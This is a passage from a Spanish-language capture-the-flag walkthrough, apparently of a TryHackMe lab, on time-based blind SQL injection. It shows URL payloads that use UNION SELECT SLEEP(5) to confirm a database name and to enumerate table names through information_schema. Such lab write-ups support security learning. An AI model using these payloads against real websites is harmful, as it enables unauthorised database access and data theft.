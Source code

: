 ![sqli_four](/assets/images/SQLi/sqli_four.png)

`https://website.thm/analytics?referrer=admin5' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'sqli_four%' ; --`

<br>

Ahora procederemos a crear las consultas para enumerar nombres de tablas dentro de esta base de datos:

`https://website.thm/analytics?referrer=admin5' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'a%' ; --`

En esta consulta ahora agregamos el **information_schema.tables**, para obtener información sobre las tablas en la base de datos **sqli_four**, y esa información se filtrará donde también el nombre de una tabla **table_name** empiece con la letra "a".

En este caso el servidor web nos responde que tardo 5 segundos!, lo cual significa que esto es **true**:
